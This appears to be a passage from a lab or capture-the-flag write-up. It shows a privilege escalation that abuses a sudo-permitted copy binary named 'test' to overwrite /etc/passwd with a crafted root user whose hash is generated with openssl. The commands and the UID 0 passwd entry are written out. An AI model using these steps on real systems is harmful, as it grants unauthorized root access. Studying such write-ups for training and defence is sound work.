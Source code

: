 The `test` binary is a tool that copies one file into another. Exploiting this, we create a new user with root privileges and insert the credentials into the system's password file, located at `/etc/passwd`.

```bash
openssl passwd -1
Password: 
Verifying - Password: 
$1$GB8hhODB$603ENjxP1oFU4TOz2e4kw.
```

`test:$1$GB8hhODB$603ENjxP1oFU4TOz2e4kw.:0:0:root:/root:/bin/bash`

```bash
sudo /opt/devstuff/dist/test/test /tmp/pass /etc/passwd
```
